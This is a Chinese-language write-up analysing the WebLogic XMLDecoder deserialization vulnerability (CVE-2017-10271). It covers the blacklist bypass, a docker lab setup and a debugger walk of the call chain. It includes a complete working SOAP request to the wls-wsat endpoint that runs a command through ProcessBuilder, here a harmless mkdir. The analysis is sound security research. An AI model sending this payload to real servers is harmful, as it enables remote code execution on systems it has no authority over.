 # 漏洞简介

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞。

CVE-2017-10271&CVE-2017-3506原理一样,因为再CVE-2017-3506之后,官方在startElement方法下禁止了object标签

```java
 if(qName.equalsIgnoreCase("object")) {
                  throw new IllegalStateException("Invalid context type: object");
               }
```

绕过方法仅仅是类的标签类型由 object 变成了 void,VoidElementHandler继承于ObjectElementHandler,自然就可以绕过 

此外还可以使用new和method标签构造payload,这也就是为什么修复的时候会把这些标签加入黑名单

# 环境搭建

使用wls版本为10.3,可以使用之前`CVE-2015-4852`的docker环境

用如下命令导出jar包:

```java
[root@docker]# find /u01/app/oracle/middleware -name "*.jar" -exec cp {} /tmp/10.3wlsjar/ \;
[root@kali]# mkdir 10.3wlsjar  
[root@kali]# docker cp weblogic1036jdk1.8:/tmp/10.3wlsjar/ ./10.3wlsjar/
```

也可以参考这篇博客搭建环境:https://www.cnblogs.com/ph4nt0mer/p/11772709.html

发送payload,进行调试（Content-Type需要等于 text/xml）

```http
POST http://192.168.182.137:7001/wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.182.137:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 538

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="2">
<void index="0">
<string>mkdir</string>
</void>
<void index="1">
<string>/tmp/xml3</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

# 流程分析



首先在XMLDecode#readObject方法中打断点,得到如下调用链

```java
readObject:250, XMLDecoder (java.beans)
readUTF:111, WorkContextXmlInputAdapter (weblogic.wsee.workarea)
readEntry:92, WorkContextEntryImpl (weblogic.workarea.spi)
receiveRequest:179, WorkContextLocalMap (weblogic.workarea)
receiveRequest:163, WorkContextMapImpl (weblogic.workarea)
receive:71, WorkContextServerTube (weblogic.wsee.jaxws.workcontext)
readHeaderOld:107, WorkContextTube (weblogic.wsee.jaxws.workcontext)
processRequest:43, WorkContextServerTube (weblogic.wsee.jaxws.workcontext)
__doRun:866, Fiber (com.sun.xml.ws.api.pipe)
_doRun:815, Fiber (com.sun.xml.ws.api.pipe)
doRun:778, Fiber (com.sun.xml.ws.api.pipe)
runSync:680, Fiber (com.sun.xml.ws.api.pipe)
process:403, WSEndpointImpl$2 (com.sun.xml.ws.server)
handle:539, HttpAdapter$HttpToolkit (com.sun.xml.ws.transport.http)
handle:253, HttpAdapter (com.sun.xml.ws.transport.http)
handle:140, ServletAdapter (com.sun.xml.ws.transport.http.servlet)
handle:171, WLSServletAdapter (weblogic.wsee.jaxws)
run:708, HttpServletAdapter$AuthorizedInvoke (weblogic.wsee.jaxws)
doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:146, SecurityManager (weblogic.security.service)
.
.
.
```

我们从`WLSServletAdapter#handle`看起

这里我们的请求方式不为GET,进入super.handle

![image-20210824165436792]([CVE-2017-10271]/image-20210824165436792.png)

这里createConnection()用于创建server applet连接,不重要,再次进入handle![image-20210824165517687]([CVE-2017-10271]/image-20210824165517687.png)

这里tk的生成跟我们的payload好像没关系,我们的payload此时在connection中,在此进入HttpToolkit#handle

![image-20210824165852092]([CVE-2017-10271]/image-20210824165852092.png)

这里新建了一个Packet,然后迎来了一个关键的方法decodePacket()

![image-20210824165954945]([CVE-2017-10271]/image-20210824165954945.png)

codec是一个xml数据包

![image-20210824170617602]([CVE-2017-10271]/image-20210824170617602.png)



然后进入了一系列的赋值,这里payload存储在了in中,跟进codec.decode

![image-20210824171644063]([CVE-2017-10271]/image-20210824171644063.png)

进入

![image-20210824171852210]([CVE-2017-10271]/image-20210824171852210.png)

前面的if条件主要是进行一些检查判断,跳过。

![image-20210824173036203]([CVE-2017-10271]/image-20210824173036203.png)

这里对packet.Message进行赋值

![image-20210824172959818]([CVE-2017-10271]/image-20210824172959818.png)

最后返回packet这里将我们的数据包转换成了packet对象,接下来关注packet对象的操作

来到这里:

![image-20210824173618981]([CVE-2017-10271]/image-20210824173618981.png)

这里进行了一系列的赋值操作,但并没有影响到我们的payload,然后来到fiber.runSync()

![image-20210824173821135]([CVE-2017-10271]/image-20210824173821135.png)

这里创建了一个var7,并进行赋值var7=packet,然后将var7返回变成response,中间并没有对var7进行操作。所以很有可能是在this.doRun方法中处理var7

![image-20210824174038828]([CVE-2017-10271]/image-20210824174038828.png)

这里有个_doRun方法

![image-20210824174338765]([CVE-2017-10271]/image-20210824174338765.png)

又遇到个_doRun

![image-20210824174531913]([CVE-2017-10271]/image-20210824174531913.png)

这里来到了个for循环

![image-20210824174642449]([CVE-2017-10271]/image-20210824174642449.png)

结合前面的调用栈来看，`WorkContextServerTube.processRequest()`才是触发漏洞的一环，而非此处的`this.next`为`WseeServerTube`。这里快进到`this.next=WorkContextServerTube`

这里将`packet.message.headers`传入了readHeaderOld

![image-20210824175301302]([CVE-2017-10271]/image-20210824175301302.png)

这里对我们的var1进行了一系列操作后(var3.bridge有点看不明白),byte类型的var4为我们的payload

![image-20210824181414145]([CVE-2017-10271]/image-20210824181414145.png)

然后进入this.receive(var6),一直往里走

![image-20210824181828365]([CVE-2017-10271]/image-20210824181828365.png)

![image-20210824182325637]([CVE-2017-10271]/image-20210824182325637.png)

成功到达xmlDecoder#readObject

![image-20210824182339152]([CVE-2017-10271]/image-20210824182339152.png)

# 参考

https://www.anquanke.com/post/id/231484#h3-7

https://www.cnblogs.com/ph4nt0mer/p/11775908.html